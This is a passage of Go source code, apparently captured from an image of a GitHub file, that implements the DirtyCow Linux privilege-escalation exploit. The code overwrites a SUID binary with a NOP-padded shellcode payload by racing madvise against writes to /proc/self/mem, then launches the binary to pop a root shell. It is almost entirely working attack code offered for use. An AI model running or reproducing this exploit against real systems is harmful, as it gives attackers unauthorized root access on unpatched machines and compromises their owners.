 ```
    signals <- true

    fmt.Println("Popping root shell")
    fmt.Println("Don't forget to restore /tmp/bak\n")

    attr := os.ProcAttr {
        Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
    }
    proc, err := os.StartProcess(SuidBinary, nil, &attr)
    if err !=nil {
        log.Fatal(err)
    }
    proc.Wait()
    os.Exit(0)
}

func main() {
    fmt.Println("DirtyCow root privilege escalation")
    fmt.Printf("Backing up %s.. to /tmp/bak\n", SuidBinary)

    backup := exec.Command("cp", SuidBinary, "/tmp/bak")
    if err := backup.Run(); err != nil {
        log.Fatal(err)
    }

    f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600)
    if err != nil {
        log.Fatal(err)
    }
    st, err := f.Stat()
    if err != nil {
 log.Fatal(err)
    }

    fmt.Printf("Size of binary: %d\n", st.Size())

    payload := make([]byte, st.Size())
    for i, _ := range payload {
        payload[i] = 0x90
    }
    for i, v := range sc {
        payload[i] = v
    }

    mapp, _, _ = syscall.Syscall6(
        syscall.SYS_MMAP,
        uintptr(0),
        uintptr(st.Size()),
        uintptr(syscall.PROT_READ),
        uintptr(syscall.MAP_PRIVATE),
        f.Fd(),
        0,
    )

    fmt.Println("Racing, this may take a while..\n")
    go madvise()
    go procselfmem(payload)
    waitForWrite()
}
```
